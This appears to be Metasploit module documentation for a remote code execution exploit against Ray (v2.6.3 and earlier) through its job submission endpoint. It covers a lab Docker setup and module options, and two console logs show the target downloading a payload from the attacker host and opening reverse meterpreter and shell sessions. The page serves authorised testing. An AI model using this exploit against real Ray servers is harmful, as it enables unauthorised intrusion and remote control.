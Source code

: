 ## Vulnerable Application

Ray (<=v2.6.3) is vulnerable to RCE via the agent job submission endpoint

The vulnerability affects:

    * Ray (<=v2.6.3)

This module was successfully tested on:

    * Ray (v2.6.3) installed with Docker on Kali Linux 6.6.15

### Install and run the vulnerable Ray (v2.6.3)

1. Install your favorite virtualization engine (VirtualBox or VMware) on your preferred platform.
2. Install Kali Linux (or other Linux distro) in your virtualization engine.
3. Pull pre-built Ray docker container (v2.6.3) in your VM.
   `docker pull rayproject/ray:2.6.3`
4. Start the ray container.
   `docker run --shm-size=512M -it -p 8265:8265 rayproject/ray:2.6.3`
5. Start ray.
   `ray start --head --dashboard-host=0.0.0.0`

## Verification Steps

1. Install the application
2. Start msfconsole
3. Do: `use exploit/linux/http/ray_agent_job_rce`
4. Do: `set rhost <rhost>`
5. Do: `set lhost <attacker-ip>`
6. Do: `run`
7. You should get a shell or meterpreter

## Options

### COMMAND (Required)

This is the command to execute. Default is `echo 'Hello from Metasploit'`.

## Scenarios

### Ray (v2.6.3) installed with Docker on Kali Linux 6.6.15 (target 0)
```
msf6 > use exploit/linux/http/ray_agent_job_rce
[*] No payload configured, defaulting to linux/x64/meterpreter/reverse_tcp
msf6 exploit(linux/http/ray_agent_job_rce) > set rhost 192.168.56.6
rhost => 192.168.56.6
msf6 exploit(linux/http/ray_agent_job_rce) > set lhost 192.168.56.1
lhost => 192.168.56.1
msf6 exploit(linux/http/ray_agent_job_rce) > check
[*] 192.168.56.6:8265 - The service is running, but could not be validated.
msf6 exploit(linux/http/ray_agent_job_rce) > run

[*] Started reverse TCP handler on 192.168.56.1:4444 
[*] Running automatic check ("set AutoCheck false" to disable)
[!] The service is running, but could not be validated.
[+] Command execution successful. Job ID: 'raysubmit_EJDSK2BrhAP8j69n' Submission ID: 'raysubmit_EJDSK2BrhAP8j69n'
[*] Using URL: http://192.168.56.1:8080/kOZWO5HA3wWm2Hh
[*] Command Stager progress - 100.00% done (120/120 bytes)
[*] Client 192.168.56.6 (Wget/1.20.3 (linux-gnu)) requested /kOZWO5HA3wWm2Hh
[*] Sending payload to 192.168.56.6 (Wget/1.20.3 (linux-gnu))
[*] Sending stage (3045380 bytes) to 192.168.56.6
[*] Meterpreter session 1 opened (192.168.56.1:4444 -> 192.168.56.6:42052) at 2024-08-10 10:45:48 +0900
[*] Server stopped.

meterpreter > sysinfo
Computer     : 172.17.0.2
OS           : Ubuntu 20.04 (Linux 6.6.15-amd64)
Architecture : x64
BuildTuple   : x86_64-linux-musl
Meterpreter  : x64/linux
```

### Ray (v2.6.3) installed with Docker on Kali Linux 6.6.15 (target 1)
```
msf6 > use exploit/linux/http/ray_agent_job_rce
[*] Using configured payload linux/x64/meterpreter/reverse_tcp
msf6 exploit(linux/http/ray_agent_job_rce) > set rhost 192.168.56.6
rhost => 192.168.56.6
msf6 exploit(linux/http/ray_agent_job_rce) > set lhost 192.168.56.1
lhost => 192.168.56.1
msf6 exploit(linux/http/ray_agent_job_rce) > set target 1
target => 1
msf6 exploit(linux/http/ray_agent_job_rce) > set payload linux/x86/shell/reverse_tcp
payload => linux/x86/shell/reverse_tcp
msf6 exploit(linux/http/ray_agent_job_rce) > check
[*] 192.168.56.6:8265 - The service is running, but could not be validated.
msf6 exploit(linux/http/ray_agent_job_rce) > run

[*] Started reverse TCP handler on 192.168.56.1:4444 
[*] Running automatic check ("set AutoCheck false" to disable)
[!] The service is running, but could not be validated.
[+] Command execution successful. Job ID: 'raysubmit_RNpiJJt2feNrUrwN' Submission ID: 'raysubmit_RNpiJJt2feNrUrwN'
[*] Using URL: http://192.168.56.1:8080/QtpKXmqA8kq
[*] Command Stager progress - 100.00% done (116/116 bytes)
[*] Client 192.168.56.6 (Wget/1.20.3 (linux-gnu)) requested /QtpKXmqA8kq
[*] Sending payload to 192.168.56.6 (Wget/1.20.3 (linux-gnu))
[*] Sending stage (36 bytes) to 192.168.56.6
[*] Command shell session 2 opened (192.168.56.1:4444 -> 192.168.56.6:35136) at 2024-08-10 10:47:37 +0900
[*] Server stopped.

whoami
ray
pwd
/home/ray
```
